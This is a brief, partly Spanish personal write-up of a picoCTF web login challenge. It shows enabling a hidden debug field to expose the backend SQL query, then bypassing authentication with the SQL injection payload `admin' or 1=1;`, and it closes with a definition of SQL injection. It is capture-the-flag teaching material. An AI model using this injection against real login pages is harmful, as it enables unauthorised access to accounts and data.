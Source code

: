 #notas_hacking
# Reto
## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
## Solución
esta un campo oculto que al poner el valor como 1 
```html
<input type="hidden" name="debug" value="1">
```
te muestra datos que se usaban de `debugin`
```sql
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
```
al ser una consulta donde solo se concatenan los valores ingresados es vulnerable a una inyección SQL
si ingresamos `admin' or 1=1;` remanaría viéndose algo como:
```sql
SQL query: SELECT * FROM users WHERE name='admin' or 1=1;' AND password='admin'
```
entonces 1=1 siempre es verdadero e ignora lo demás
## Notas
`SQL injection` -  Es la colocación de código malicioso en sentencias SQL, a través de la entrada de una página web.
## Referencias
https://www.w3schools.com/sql/sql_injection.asp